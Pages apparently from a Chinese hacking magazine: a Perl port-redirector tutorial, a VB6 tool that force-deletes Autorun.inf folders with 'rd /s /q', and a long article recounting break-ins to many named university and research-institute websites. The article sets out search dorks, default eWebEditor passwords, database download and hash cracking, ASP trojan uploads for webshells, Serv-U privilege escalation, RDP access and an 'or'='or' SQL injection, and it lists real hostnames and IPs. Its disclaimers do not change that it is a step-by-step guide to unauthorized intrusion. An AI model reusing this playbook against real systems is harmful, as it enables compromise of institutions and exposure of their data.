# 注：这三个分别是设置本地监听端口、重定向目标主机的 IP 地址和端口，由于上面打开了严格语法检查，所以此处必须先使用 my 声明变量，这里只是一个实现重定向的简易模型，所以并没有将这三个变量当作外部输入参数处理，默认将本机 80 端口重定向至 yahoo.com

```perl
my $socket_listen=IO::Socket::INET->new(LocalPort=> $local_port,
    Type=>SOCK_STREAM,
    Proto=>"tcp",
    Reuse=>1,
    Listen=>10)
or die "Could not be a tcp server on port $local_port:$!\n";
```

# 注：建立一个套接字监听本地端口

```perl
print "Now a tcp server is listening on port $local_port...\n";

my $ACCEPT_LOCK;
```

# 注：声明 $ACCEPT_LOCK 全局变量，该变量将配合 lock 函数在子线程间分配远程套接字等待列

```perl
Thread->new(\&do_thread, $socket_listen) for (1..PRETHREAD);

sleep;
```

# 注：启动 PRETHREAD 个线程，向线程发送 $socket_listen 套接字，每个线程都执行子例程 do_thread()，然后主线程进入睡眠状态

```perl
sub do_thread{
    my $socket=shift;
    my $s_c;
    while (1) {
        {
            lock $ACCEPT_LOCK;
            next unless $s_c=$socket->accept;
        }
        my $host = $s_c->peerhost();
        my $port = $s_c->peerport();
        print "from $host:$port...\n";
        handle_connection($s_c);
        close $s_c;
    }
}
```

# 注：子例程取得主线程发送的套接字，进入一个永久循环。这里是一个比较巧妙的构造，由于 Perl 不允许多个线程同时调用 accept() 等待连接，所以我们使用了一个 lock 函数的语句块确保同时只有一个线程调用 accept()。这个循环里面包含有一个定义域范围的内部块（即 lock 所在的大括号范围），在该块中我们锁定了 $ACCEPT_LOCK，由于 lock 函数的性质，同时只有一个线程可以取得定义锁，其它线程将被挂起直至该锁可用。线程获取锁定变量后，调用 accept() 等待连接，直到远程主机接入则离开内部块（大括号范围），并释放锁定的函数 $ACCEPT_LOCK，这样就允许下一个线程调用 accept()。在取得接入主机远程套接字后，套接字再传递给另一个子例程 handle_connection() 进行处理。

```perl
sub handle_connection {
    my $c = shift;

    my $s=IO::Socket::INET->new(PeerAddr=>$remote_host,
        PeerPort=>$remote_port,
        Proto=>"tcp",
        Type=>SOCK_STREAM)
    or die "Could not connect to $remote_host:$remote_port: $!\n";
```

# 注：子例程取得主线程发送的套接字作为客户端套接字，并与重定向目标主机建立连接作为服务端套接字

```perl
my $sockets = IO::Select->new();
$sockets->add($c);
$sockets->add($s);
```

# 注：创建一个新的 IO::Select 对象，分别将客户端套接字 $c 和服务端套接字 $s 添加到监视列表，下面进入一个永久循环处理数据流转

```perl
while(1) {
    my @readable = $sockets->can_read;

    my $s_ms='';
    my $c_ms='';
```

# 注：取得可用来读取的套接字列表，声明 $s_ms 和 $c_ms 用于存放过程数据，下面 2 个 foreach 和 if 配合的结构是使用 IO::Select 的常用结构，这里理解起来比较简单，故不做太多解释

```perl
    foreach my $readable (@readable) {
        my $ms;

        if($readable eq $c) {
            my $bytes=$readable->sysread($ms, 4096);
```

# 注：下面这个 if 用于判断远程套接字是否断开，我们要知道的是句柄为 I/O 做好准备的原则（详见本文附录）：其中，当 TCP 套接字中远程主机关闭时，IO::Select 认为套接字做好读操作准备，且调用 sysread() 将返回值 0，这里在判断到返回数值为 0 时，则可以断定远程连接已关闭，即跳转到标识有 EXIT 的代码块执行，离开循环。

```perl
            if($bytes==0){
                goto EXIT;
            }
            $c_ms.=$ms;
        }

        if($readable eq $s) {
            my $bytes=$readable->sysread($ms, 4096);
            if($bytes==0){
                goto EXIT;
            }
            $s_ms.=$ms;
        }
    }
```

# 注：判断客户端套接字 $c 和服务端套接字 $s 是否可读，是则读取数据分别存入 $s_ms 和 $c_ms 两个变量

```perl
    my @writable = $sockets->can_write;

    foreach my $writable (@writable) {
        if($writable eq $c) {
            $writable->send($s_ms);
        }

        if($writable eq $s) {
            $writable->send($c_ms);
        }
    }
```

# 注：判断客户端套接字 $c 和服务端套接字 $s 是否可写，是则分别写入数据 $s_ms 和 $c_ms

```perl
}
```

```perl
}
EXIT;
# 注：上文的 goto EXIT; 跳转到这里，之后退出这个子例程，回到上一个例程继续等待连接
}


```

完整的代码到这里就讲解完了，事实上整个结构也不是很复杂。我们运行一下，用 IE 访问本地 IP，可以看到已经转到了 yahoo.com，如图 1、图 2 所示。

我一直建议刚接触网络安全的朋友来学习 perl 语言，其面向对象编程对新手来讲是比较容易理解的。好了，今天就到这里了，有什么问题，我们可以到论坛上交流。

# 小知识：句柄为 I/O 做好准备的原则

一般条件下，符合下面情况时，文件句柄、管道和套接字都为读操作做好准备：

- 文件句柄具有等待解决的数据。即文件句柄输入缓冲区（套接字的接受缓冲区）中至少存在 1 字节数据。
- 文件句柄上存在“文件尾”。如果下次读取返回“文件尾”，则 select() 认为文件句柄已准备好用于读取。下次调用 sysread() 将返回值 0 而不阻塞。TCP 套接字中当远程主机关闭时发生这种情况。
- 文件句柄上存在一个待解决的错误。

符合下面情况时，文件句柄、管道和套接字都为写操作做好准备：

- 输出缓冲区中有新数据的空间。即在文件句柄的输出缓冲区（或套接字的发送缓冲区）中至少存在大于将要写入数据量的自由空间。
图 1 访问 127.0.0.1 得到 yahoo.com
图 2 端口重定向程序的执行结构

（作者提到的用 perl 编写端口重定向工具的代码已经收录在光盘中）

编辑点评：perl 的确是个好东西，正如作者所说，其面向对象编程比较适合初学者。在网络安全，特别是脚本语言安全中有着特殊的地位。

# 无视 Autorun.inf 类病毒的疫苗

JiaJia [YuLv]

- 从本文你可以学到：
- 删除 autorun.inf 的小技巧
- 如何编写 autorun.inf 清除免疫程序

## 起因：

最近比较无聊，在硬盘上翻来覆去的。突然看见 Smallrascal 以前给的《打造 Autorun.inf 类病毒的疫苗》文档，一直以来都没时间看，正好今天拿出来研究。看完之后就试想破解此法，之后就有了本文。
图 1 尝试删除

## 分析：

Smallrascal 是用 Windows 文件夹命名的缺陷来禁止 Autorun.inf 类的病毒运行，若用手工删除的方法则会提示“无法删除”，Smallrascal 的意思是无法删除来免疫这类 Autorun.inf 病毒。

作者的想法是不错的！其实，改掉 Autorun.inf 文件夹名就可以轻易破解了，但是手动删除不行，如果我硬要删除怎么办？难不成这类目录还删不掉了？经过测试，用 RD 命令是可以删除的。如果一些后门程序作了此类检查并改名或者删除，这样的防范就不堪一击了。下面我们来试试在 CMD 下删除 Autorun.inf 文件夹，如图 1。

可以看到，如果不知道命名规则，用“RD 免疫目录”是删除不掉的。可以先通过“dir/x”来得到非 8dot3 文件名产生的短名称，之后再用“RD [短文件名]”即可删除。

当然，我们是知道命名规则的，所以直接“RD 免疫目录..”就可以删除了。这里可能有人会问，为什么不直接删除 Autorun.inf 文件夹呢？这里我只是做个演示，如果文件夹是 Windows，你还会直接删除 Windows 吗？

## 下面我们来看看 RD 的参数：

- /S 除目录本身外，还将删除指定目录下的所有子目录和文件，用于删除目录树。
- /Q 安静模式，带 /S 删除目录树时不要求确认。

知道参数之后，在 CMD 下用“RD /S /Q Autorun.inf”就可以删除带子目录的 Autorun.inf 文件夹了。为了方便，知道这种方法后，我们就可以自己设计一个针对 Autorun.inf 类病毒免疫的破解程序了。

## 设计：

跟 Smallrascal 写的免疫程序一样，首先需要进行程序初始化，获取该机硬盘的所有分区。改动的地方就是判断 Autorun.inf 文件夹是否存在，如果存在就删除。这里在 VB6 中只用了模块(注：请参考《用 VB 写文件改名助手》一文)，具体代码和解释如下：

```vb
' 程序主过程
Public Sub Main()
    ' 删除所有硬盘下的 Autorun.inf 文件夹```vbscript
Call KillAutorunInf
End Sub

'判断 Autorun.inf 文件夹是否存在，若存在则自动删除!
Private Sub KillAutorunInf()
    Dim fs, d, t '定义文件系统、盘符及盘符对应的属性的变量
    Dim Driver As Integer '定义当前盘符名的变量
    Dim DriverPath As String '定义当前盘符根的变量
    '建立文件系统对象
    Set fs = CreateObject("Scripting.FileSystemObject")
    '循环变量 C 至 Z 盘，获得存在的盘符
    For Driver = 67 To 90
        '获取当前盘符的根
        DriverPath = Chr(Driver) & ":"
        '获取当前盘的文件夹系统对象
        Set d = fs.GetDrive(DriverPath)
        '设置错误陷阱，防止盘符不存在而导致程序崩溃
        On Error Resume Next
        '根据获取的盘符类型进行判断
        Select Case d.DriveType
            Case 0 '未知
                t = "Unknown"
            Case 1 '是移动磁盘
                t = "Removable"
            Case 2 '是硬盘
                t = "Fixed"
            Case 3 '是网络驱动器
                t = "Network"
            Case 4 '是光驱
                t = "CD-ROM"
            Case 5 '磁盘存储器
                t = "RAM Disk"
        End Select
        '判断是否存在 Autorun.inf 文件夹，即用 dir 中的参数 vbDirectory 检测。
        If Dir(Chr(Driver) & ":\Autorun.inf", vbDirectory) <> "" Then
            '如果存在，则使用 cmd 中的 rd 删除目录命令带 /s /q 参数来删除
            Shell "cmd.exe /c rd /s /q " & Chr(Driver) & ":\Autorun.inf", vbHide
            Debug.Print Chr(Driver) & ":\Autorun.inf"
        End If
        Debug.Print "Drive " & d.DriveLetter & ": " & t
        '继续下一个盘符
    Next
End Sub


```

设计完了就运行，看看效果吧！是不是所有磁盘下的 Autorun.inf 文件夹都被删除了？
图 2 Autorun.inf 类病毒的专杀工具

### 写在最后:

方法很简单，但是能有效破解 Auto run.inf 类病毒的疫苗。需要真正禁止 Autorun.INF 文件的朋友可以在网上查看相关的文章来动手解决，一般操作注册表和策略组就可以很好地解决了。如果觉得麻烦，也可以使用我写的 AntiAutoInf 工具来查杀和免疫（嘿嘿，我还是花了一定的时间写这个工具的，希望大家支持），如图 2。它能有效清除二十多种常见 U 盘病毒，也能有效免疫（注：免疫后，会有自动播放的功能）。使用的时候把鼠标放在按钮上就会有提示了，比较简单的。

本文只作为参考！如果大家有什么疑问或者想法都可以到 NoHack 的 BBS（Hhttp://Www.NoHack.Cn/bbs）或我的 Blog（Http://Www.YuLv.Net）上留言，我的 ID 是 JiaJia。

编辑点评：作者看到以往解决 autorun.inf 类病毒的方法有不完美的地方，通过分析并自己编写出更为直接的清除免疫程序。虽然系统失去了自动播放的动能，但却大大解决了这类病毒自我运行，自我复制的问题。小技巧彻底战胜大问题！

# 周年专题

编者按：又是大家都熟悉的 ewebedit 的利用，熟悉《黑手》的朋友们对它肯定是有印象的！收集程序漏洞的前辈们许久以前就研究过它了，没有想到现在的它依然屹立，居然还是各大高校在线编辑器的首选！作者以菜鸟的操作角度，在前面详细地演示了该程序的利用，并以此类推，相同的手法，不同的高校，一个个合作……时代在变化，安全需提高！

- 从本文你可以学到：
1、google hack 的超强功能
2、怎样利用 ewebedit 在线文本编辑器漏洞的整个过程
3、在安检过程中的整个思路

免责申明：本专题是基于善意的角度而做的一次安全检测，没有对网站做任何破坏，如有人利用本专题所涉及的技术搞破坏，完全与本人和《黑手手册》无关。

# 一、菜鸟说法

在一些人的感觉中，各大知名高校的信息安全都搞得比较好，它的网站就像它的名字一样值得所有人信赖。看着前辈们进入那些大名鼎鼎、如雷贯耳的知名高校，击破它们坚厚的铜墙铁壁，把胜利的旗帜插在那里的时候，我们这些菜鸟只有带着羡慕的眼光望着他们，多希望插上胜利旗帜的是自己！多希望他们给我们经验增强我们的力量啊！多希望我们能像他们一样在铜墙铁壁中穿插自如啊！太多的希望，太多的奢求，我们只有不断地学习，不断地提高，不断地积累……

# 安全检测：拉响国内排名前十名牌大学的网络警报

fint.yongyule

俗话说得好，求人不如求自己，只要多看《黑手》多思考，菜鸟也同样能在铜墙铁壁里来去自由！！不信？那就教你如何用菜招巡游高校，看看中国教育网最薄弱的一面！

# 二、菜鸟行动

名牌大学的网络安全不是我们想象的那样坚不可摧，只要我们善于发现，善于思考，所有的网站在我们菜鸟面前只不过是纸老虎而已，那些所谓的高手只不过是见识比我们广，所以思路比我们宽。

今天就以一个漏洞对几十所名牌大学进行检测，让我们来看看是怎样的一个漏洞击垮了中国如此多名牌大学的安全防线，彻底展示中国教育网薄弱的一面！下面就随我进入对这些名牌大学的安全检测之旅……

## 1、历史悠久的北京大学

首先起点，在百度搜索框里输入北京大学，我们看到的是北京大学的首页链接，得到域名是 www.pku.edu.cn，再在百度搜索框中输入 site:.pku.edu.cn inurl:(../uploadfile/) 得到结果如图一。

(图一说明略)

(我这里解释一下：site:.pku.edu.cn 是指搜索百度收录的北京大学一级二级域名的所有链接；inurl:(../uploadfile/) 是指搜索百度收录的链接中含有/uploadfile/的连接，加个括号是为了更加精确；那么组合起来就是搜索百度中收录的有关北京大学的有关链接中含有/uploadfile/的链接)

图一中的链接大家看到没有，其中有 ewebeditor，说明存在 ewebeditor 在线文本编辑器，利用方法就是在链接中，去掉/uploadfile/...加上 admin_login.asp，在图一中的右上角可以看到找到相关网页为 538 篇。

就这样一个链接一个链接地去尝试，成功后就会进入 ewebeditor 在线文本编辑器的首页，这个时候我们先用 ewebeditor 在线文本编辑器的默认账号/密码：admin/admin888 或 admin/admin。一般情况下，如果链接比较长，在网络管理员看来是比较隐秘的，那么用默认的账号/密码登录是很容易成功的。

如果登录失败，我们可以下载它的默认数据库，去掉../uploadfile/..加 db/ewebeditor.mdb 或 db/ewebeditr.asp，如果是前一种数据库直接下载就可以了，后一种用迅雷下载。到本地后用 domain3.5 查看即可得到 md5 加密的登录账号密码，然后将加密的数据到 www.cmd5 和 www.xmd5.com 两个网站去在线破解，速度还是蛮快的。如图二、图三。

用桂林老兵的数据库浏览器打开下载到本地的数据库，到 www.cmd5.com 去破解得到密码为：tubian，账号为：admin，成功进入如图四。

点击图四中的“样式管理”进入“样式管理页面”，点击右上角的“新增样式”进入如图五所示的界面。

在图五中要改动的只有三四个地方，样式名称可以任意地填写，我们填写 11，将“路径模式”选择为“绝对根路径”，将显示路径栏清空，在“图片类型”中加入 |aaspsp，这样就可以提交了，成功进入图六所示页面。

点击设置此样式下的工具栏，进入工具栏的设置页面，如图七。

先点击图七中的“新增工具栏”，这时候会弹出一个对话框提示工具栏 1 增加成功，点击“确定”又返回到图七。点击图七中的“按钮设置”，就进入按钮设置的页面，如图八。

在图八中双击插入或修改图片（其它的也可以，只要可以上传，但是要和前面图 5 的上传类型一致），点击“保存”，就会提示工具栏按钮设置成功，如图九。

点击图九的“返回样式管理”，在“样式管理”中找到自己新增的样式，点击后面的“预览”，就进入上传页面了。点击插入后修改图片的图标，在弹出的对话框中上传我们准备好的 asp 木马，成功后如图十。

点击代码按钮得到我们上传木马的相对地址，填到浏览器中进行浏览，输入我们的密码，得到如图十一。

这个时候我们得到了网站的 webshell 了，浏览各个硬盘，发现有 serv-U 和 pcanywhere 的身影，如图十二。

呵呵，在 webshell 中用 netstat -an 命令发现开有 3389、5631、43958 端口，看来 pcanywhere 也用不着了，直接 3389 登录。好，现在我们提权，如图十三。点击“start”后提示提权成功，用 3389 连接工具连接，成功登录，如图十四、十五。

到目前为止已经拿到北京大学的一个分院的服务器最高权限。总结这次行动，用到的都是平时我们耳熟能详的知识，百度 hack、google hack 在我们生活中随时都要用到，serv-U 提权工具多的是，有 exe 版、asp 版、aspx 版、php 版等等，功能都很强大，pcanywhere 提权等，在百度、google 里搜索文章有文章，要动画有动画。其实问题出在北京大的网络管理员身上，具体存在以下问题：①密码设置；②权限的设置。

## 2、一枝独秀的华中科技大学

湖北是中国的教育大省，因为在湖北有两所在十所名牌大学中排名的大学，其一就是华中科技大学，是湖北教育的两根擎天柱之一。在教育界如此牛的学校，不知道其网络安全怎么样，它们的网站是不是坚不可摧？下面看看菜鸟怎样拿下它们的主站。

首先踩点，在百度中输入华中科技大学，得到华中科技大学的域名是：www2.hust.edu.cn，然后在百度中输入“site:hust.edu.cn inurl:(../uploadfile/)”得到如图十六所示页面。

看到没有，图十六中的第二个链接是主站的链接，根据我以往的经验，editor 就是 ewebeditor 在线文本编辑器，editor 后加 admin_login.asp，结果提示找不到网页，郁闷！

既然这个网站的设计者喜欢将 ewebeditor 改为 editor，我就改变搜索方式，在百度中输入“site:hust.edu.cn inurl:(../editor/uploadfile/)”，这样得到的结果更加精确了，如图十七。

在 editor 后加 admin_login.asp 成功得到 ewebeditor 在线文本编辑器的登录界面，再按照前面的方法输入默认的账号密码。失败的情况下，我下载了它的数据库，如图十八。

拿到得到的 md5 加密的密码到 www.xmde5.com 破解得到账号是：rxiao，密码是：rixiaoxp，输入得到的账号和密码成功进入后台，按照前面北京大学分院的步骤得到 webshell，如图十九。

得到 webshell 了，简直太顺利了，在百度里面页面都没有翻。心里嘀咕着，主站存在，也存在 editor，难道主站和分院放在一个主机上？

简单地试试就知道了，ping www2.hust.edu.cn 和 ping soci.edu.cn，结果得到同一个 ip，都是 202.114.4.49！呵呵，拿下这台服务器就是拿下华中科技大学的主站了，心里有点激动。既然是主站，肯定服务器设置得非常好，想拿下它不是那么容易吧，自己在心里给自己泼冷水。像往常一样在硬盘里转悠着，结果发现了 serv-U，如图二十。

直接提权，如图二十一，然后通过点击图十九的“2.服务器相关数据”得到终端端口是 65354，用 3389 连接工具连接成功，如图二十二。

就这样，华中科技大学的主站被我这个菜鸟轻松拿下了，没有什么技术含量，都是前面的步骤。归根结底还是管理员的失职，密码设置简单，原以为把 ewebeditor 在线文本编辑器放在三级根目录下就安全了，殊不知通过百度、google 还是把它们揪出来了。

## 3、湖北双雄之武汉大学

武汉大学是资格很老的名牌大学，早些年到现在一直还是十所名牌大学的一分子，是教育部直属的重点综合性大学，211 工程院校。在许多人眼里，它该是网络信息安全很牛的高校之一，今天我对它进行简单的测试，居然也拿到了几个学院的 webshell。现在来看看菜鸟如何穿梭于武汉大学的铜墙铁壁中。

首先还是踩点，在百度中输入武汉大学，得到武汉大学的域名为 www.whu.edu.cn，然后在百度中输入“site:.whu.edu.cn inurl:(../uploadfile/)”得到如图二十三所示的页面。

按照前面安检北京大学的详细步骤，在测试图二十三的第二个链接的时候出现如图二十四所示的页面，似乎不像是有 ewebeditor 在线文本编辑器。

还是用默认的账号密码试试，结果以失败告终，下载数据库也是失败。这是个怎样的程序呢？外表观看是那么的清爽自然！我没有再测试其它的链接，开始对这套程序感兴趣起来，因为以前没有见过。点击返回上传首页得到如图二十五所示的页面。

在上传首页寻找可以利用的地方，看到图二十五中注册字样，点击进入注册界面，如图二十六所示。

随便的填写，点击注册，就进入成功注册资料，如图二十七。

然后在一级根目录下加上 /xiazai，成功进入图二十八。

点击图二十八的“点此进入系统设置”来到系统设置页面，如图二十九。

在允许上传的文件类型栏目框中加入 asp 文件类型，然后点修改，再点击“点此进入文件上传”回到图三十。

注意图二十八和图三十的区别，在图三十中，文件名称可以任意填写，按照图三十的操作，点击上传内容就可以。不一会儿就看到我的马儿传上去了，如图三十一。

点击“编程”进入，就看到我们的木马，输入密码进入，如图三十二。无意间点了服务器相关参数，发现居然有 4 个 cpu，呵呵，如图三十三。

就这样，

- 1. 服务器名称: golau.whu.edu.cn
- 2. 服务器 IP: 210.42.125.206
- 3. 服务器端口: 80
- 4. 服务器内容存: 511.48M
- 5. 服务器时间: 2007-3-10 16:29:59
- 6. 服务器软件: Microsoft-IIS/6.0
- 7. 脚本超时时间: 90
- 8. 服务器 CPU 数量: 4
- 9. 服务器 CPU 详情: x86 Family 15 Model 4 Stepping 1, GenuineIntel
- 10. 服务器操作系统: Windows_NT(有可能是 Windows2003 噢)
- 11. 服务器解释引擎: VBScript/5.6.8515
- 12. 本文件实际路径: D:\newgolau\golau\xiazai\uploadfile\yklc.asp

图三十三
```

## 4、浙江大学

在对浙江大学测试时，自己感觉是最不理想的。在对其主站以及二级域名的测试中没有找到可以利用的网站，心里真是懊恼得很。不过，在 Google 以及百度的帮助下，以“浙江大学 inurl:(../uploadfile/)”来搜索，还是找到了它的一个漏洞站点，浙江大学远程教育网站。

按照前面安检北京大学的详细步骤，还是成功地得到了 webshell，如图四十二、四十三。

在 C 盘中发现一个类似 Serv-U 的 FTP 工具，打开一看，账号密码是设有加密的，如图四十四。

在这样的情况下，从图四十二可以看出主机在内网，这是可以拿到服务器最高权限的。通过得到的 FTP 账号密码加用户，然后通过 LCX 隐射工具隐射到你公网的主机，然后在本地用 3389 端口连接器连接。由于我的目的在于测试，所以没有再深入下去。

## 5、南开大学

南开大学也是古老的前十所名牌大学之一，是国家教育部直属重点综合性大学，在 2007 年全国前十所名牌高校还是有她的倩影，可以说她在中国教育界的地位是举足轻重的，是伟大的周总理的母校。怀着无比敬仰的心情测试了南开大学，结果还是成功地得到南开文学院、商学院、MBA 三个学院的网站。方法和前面叙述的差不多，用得多的还是百度、Google 等搜索引擎，它们不愧是我们行动中的神兵利器，起到非常大的作用，起到至关重要的作用。

我还是简单地叙述我的安检过程吧，在百度中输入“site:.nankai.edu.cn inurl:(../uploadfile/)”，然后在得到的链接中测试，寻找 ewebeditor 在线文本编辑器，很快我就得到了几个成功的链接。进入 ewebeditor 的登录界面，但是成功下载数据库并且成功破解密码的链接只有一个，就是南开大学商学院，如图四十五、图四十六、图四十七。

在得到的 webshell 中发现有 Serv-U，如图四十八。直接提权，成功加了用户如图四十九、图五十。

到这里我们还没有结束，我们在百度中输入“南开大学 inurl:(../uploadfile/)”，幸运之神再次眷顾了我，成功地拿下了南开大学文学院和 MBA。在安检南开大学文学院的时候，进入密码居然和前面商学院的密码一致，数据库也是 asp 的，这样的情况见得多了，驾轻就熟顺利拿下 webshell，如图五十一。

南开大学 MBA 的密码居然就是默认密码。这样的网站被我进入难道是我的错？如图五十二。

对整个南开大学的安检就是这个样子，说到底还是它们的管理员的失误，密码设置如此之简单，是他们懒惰，没有将默认的数据库改了，以为把后缀名改为 .asp 就安全了，这样的情况对经常看《黑客手册》的菜菜们来说是小把戏。

## 6、西安交通大学

在百度中输入“西安交通大学”，以前还真没有看过西交大的网站，只是听说它很牛，在武书连中国大学排名中是名牌大学的一分子。通过简介得知，西安交通大学是国内建立最早的高等学府之一，也是国家“七五”、“八五”重点建设的几所大学之一，百年名校啊，敬仰之情油然而生。

怀着沉重的心情检测了西安交通大学，在百度中输入：site:.xjtu.edu.cn inurl:(../uploadfile/)，结果得到了 772 个相关链接，如图五十三。

从所有的连接上看，含有 edit 等字样，直觉告诉我那就是 ewebeditor 在线文本编辑器！呵呵，没有想到它在高校中这么受欢迎哈！一个一个地测试，很多都能进入到 ewebeditor 在线文本编辑器的登录界面，成功地得到一个二级域名网站的账号密码，成功登录拿到 webshell，如图五十四、图五十五。

打开主页一看，是西安交通大学医学院，在这个 webshell 里还有几个学院的网站，没有时间再测试下去了，文章写得也够长了。

## 7、上海交通大学

上海交通大学是教育部直属，由教育部和上海市共建的全国重点大学，其前身为创办于 1896 年的南洋公学，是中国历史最悠久的高校之一。著名校友有江泽民、汪道涵、钱学森、茅以升等，都是中国鼎鼎有名的人物的母校，心里紧张不已。

在百度中输入“上海交通大学 inurl:(../uploadfile/)”或“site:.stju.edu.cn inurl:(../uploadfile/)”，在这所有的链接中，按照前面的步骤，一个一个地测试下去，终于得到了一个成功链接，上海交通大学媒体与设计学院，如图五十六。

用 admin/{} 成功进入，成功添加样式，在上传中居然提示权限不够，如图五十七。

我返回到样式管理，点击“设置”，来到设置界面，将上传路径改为 ../../，如图五十八。

点击“提交”，然后点“上传文件管理”，在选项中选择自己设置的样式，如图五十九。这样就得到整个网站的目录了，如图六十。

在目录中浏览，找到一个登录界面，用典型的 'or'='or' 登录，如图六十一，成功进入，如图六十二。

在图六十二中点击“数据库备份”，在“最新消息管理”里面，上传我们的图片木马。成功上传，在图六十中也能够找到我们上传的图片木马，然后进行备份。令人郁闷的是，不能备份成 asp 或 asa，可以备份成 cer、cdx、htr 等格式，但是在浏览的时候居然下载不来了，看来也不解析除 asa、asp 格式之外的任何文件，郁闷！

唉！没有时间了，搞这个网站用了我不小的时间，郁闷中，不过不要以为这样就没有漏洞！在图六十中可以成功地删除任何文件，在图六十二中可以在“学院介绍”等栏目管理中进行挂马，危害是巨大的！

然而两个漏洞又是那么的明显，'or'='or' 就可以成功地进入后台，这可是在一般的网站都不能出现的安全问题，而这样的问题却出现在上海交通大学这样的名牌大学网站中，实在让人费解！

## 8、南京大学

对南京大学的检测，方法和前面的是一样的，还是借助百度和 Google 的力量进行搜索含有 ewebeditor 在线文本编辑器的链接。可能是我的运气比较好吧，还是很快地让我成功得到南京大学文化与自然遗产研究所的 webshell，截图如图六十三、六十四。

这次检测倒是没有费什么气力，都是直接而快速地得到 webshell！

## 9、哈尔滨工业大学

哈尔滨工业大学是隶属于国防科工委的全国重点大学，创建于 1920 年。哈工大的发展始终受到国家的重点支持，20 世纪 50 年代，哈工大是我国政府确定的学习苏联先进教育制度的两所院校之一。1954 年，哈工大进入国家首批重点建设的 6 所高校行列；1984 年再次被确定为国家重点建设的 15 所大学之一；1996 年首批进入国家“211工程”重点建设院校；1999 年被确定为国家“985工程”重点建设的 9 所大学之一。在老一辈的眼中，就像我爸妈的那个年代，他们眼中似乎除了清华北大，就是哈尔滨工业大学了。

对哈尔滨工业大学的检测可以算是最为顺利的，我在百度中输入“site:.hit.edu.cn inurl:(../uploadfile/)”得到如图六十五所示的结果。

在得到的链接中测试，成功进入并且得到 webshell 的有五个站点，分别是哈尔滨工业大学的管理学院、国际合作处、特种陶器研究所、招生办、外国语学院。它们的共同特点就是 ewebeditor 在线文本编辑器的密码设置相当的简单，说白了，就是网站管理员对其不重视而造成的，有的密码居然是一样的。成功截图如图六十七、图六十八、图六十九、图七十、图七十一、图七十二、图七十三。

在对哈尔滨工业大学的外国语学院进行测试的时候，发现共有 3389 端口，并且顺利地通过 Serv-U 提权，成功登录 3389 端口，如图七十四、图七十五、图七十六、图七十七。

webshell，里面有学校的几十个站点，主站以及其他分站都一一测试过，没有找到可以利用的地方，如图七十八、七十九。主站是 PHP 结构的，主机我也对它进行了全面的扫描，没有发现任何的漏洞，看来网络管理员是比较勤快的。至于 ewebeditor 在线文本编辑器的登录密码也是比较的强，在线破解不了，最终还是通过社会工程学得到的密码。

## 11、中国科学院

中国科学院是中国教育科学研究的核心基地，作为国家在科学技术方面的最高学术机构和全国自然科学与高新技术综合研究发展中心，不知道其网站的安全性能如何？

因为在前面我检测北京大学的时候已经详细地叙述了 ewebeditor 的过程，所以在后面的测试中没有必要写得很详细了，希望大家见谅！整个过程就是这样，由此看来，哈尔滨工业大学的安全还有待提高，一个如此低级的漏洞就顺利地拿下它们的五个站点，由此可以看出中国教育网的安全还是有待我们的提高！

按照前面的步骤还是比较轻松地拿下了中国科学院理化研究所的图书馆和中国科学院动物研究所网站及其服务器的最高权限。截图如图八十、图八十一、图八十二、图八十三。

其实拿下中国科学院的动物研究所网站的服务器权限是很简单的，就是 Serv-U 提权，整个过程前后不到五分钟。中国科学院的网站如此，其他大学的网站安全性也不怎么样啊，由此看来中国教育网的安全防线是何等之脆弱。

## 10、四川大学

四川大学是教育部直属全国重点大学，是国家“211工程”和“985工程”重点建设的大学，对我来说是再熟悉不过了。其实我在以前就对其进行了测试，也是存在同样的漏洞，得到一个

## 12、其它高校

对前十所名牌大学测试已经完成了，不知道其它大学是否也有这样的漏洞呢？实践证明，其它的大学不但有而且比比皆是。我

就随便截几个图。

- （1）长江大学（图八十四）
- （2）云南大学计算机学院（图八十五）
- （3）重庆大学科技处（图八十六）
- （4）山西大学数学学院（图八十七）
- （5）西南交通大学软件学院（图八十八）
- （6）湖北大学科研处（图八十九）
- （7）中国地质大学江城学院（图九十）
- （8）东北大学教务处和继续教育学院（图九十一、图九十二）
- （9）河北理工大学研究生学院（图九十三）

# 三、菜鸟安检后的思考

从上面的截图有力地证明了一个事实，中国教育网的安全防线是脆弱的，即使是名牌大学也不例外。谁也不会想到，一个如此简单的漏洞竟然导致 20 多所重点大学的沦陷，我通过表 1 来给大家分析一下（排名不分先后）。

从表 1 我们可以看出，在名牌大学中，有的不只是一个站点存在漏洞，也不只是一个漏洞，其实都是小漏洞，大部分都是来自管理员的疏忽。希望通过此次检测，能够敲响中国教育网安全的警钟，希望得到中国各所高校的重视！千里之堤，毁于蚁穴！作为高校的网络管理人员，千万不可以大意啊。

我是 fint 战队的 fint.yongyule，如果大家有什么问题需要与我交流，我们可以在 www.nohack.com/bbs 或 www.fint.cn/bbs 讨论！再一次重申，本次检测完全是基于安全做的测试，没有做任何不良破坏，如有人利用本文技术搞破坏，完全与本人以及《黑客手册》无关。希望大家不要按图索骥，文章中所有存在的漏洞我都已经去信联系网络管理人员了。

> 编辑点评：阅读完本文，可能各位读者和小编的感觉一样，完全无语了……我们的高校真是很合作啊，同一个手法可以用在不同的地方，大方大方地进出，不带走片片云彩……虽然技术简单，但完全实用！这是非常讲究信息收集和人机配合的。对于这些漏洞……


图九十二


图九十三

# 破技巧

# 软件保护经验谈（1）

1. 软件最终发行之前一定要将可执行程序进行加壳/压缩，使得解密者无法直接修改程序。如果时间允许并且有相应的技术能力，最好是设计自己的加壳/压缩方法。如果采用现成的加壳工具，最好不要选择流行的工具，因为这些工具已被广泛深入地加以研究，有了通用的脱壳/解压办法。另外，最好采用两种以上的不同工具来对程序进行加壳/压缩，并尽可能地利用这些工具提供的反跟踪特性。

2. 增加对软件自身的完整性检查。这包括对磁盘文件和内存映像的检查，以防止有人未经允许修改程序以达到破解的目的。DLL 和 EXE 之间可以互相检查完整性。

3. 不要采用一目了然的名字来命名函数和文件，如 IsLicensedVersion()、key.dat 等。所有与软件保护相关的字符串都不能以明文形式直接存放在可执行文件中，这些字符串最好是动态生成。

4. 将注册码、安装时间记录在多个不同的地方。

| 大学名称 | 漏洞站点 | 得到权限以及评价 | 提交方式 |
| :--- | :--- | :--- | :--- |
| 北京大学 | 分院站点 (1) | 得到服务器的最高权限 | Serv-U 提权 |
| 华中科技大学 | 主站 (1) | 得到服务器的最高权限 | Serv-U 提权 |
| 武汉大学 | 分站 (2) | Webshell 且连接不了权限 | 可以通过其它方式提权 |
| 中国科学院 | 分站 (2) | 得到服务器的最高权限 | Serv-U 提权 |
| 南开大学 | 分站 (3) | 可以提权 | Serv-U 提权 |
| 西安交通大学 | 分站 (1) | Webshell | 可以通过其它方式提权 |
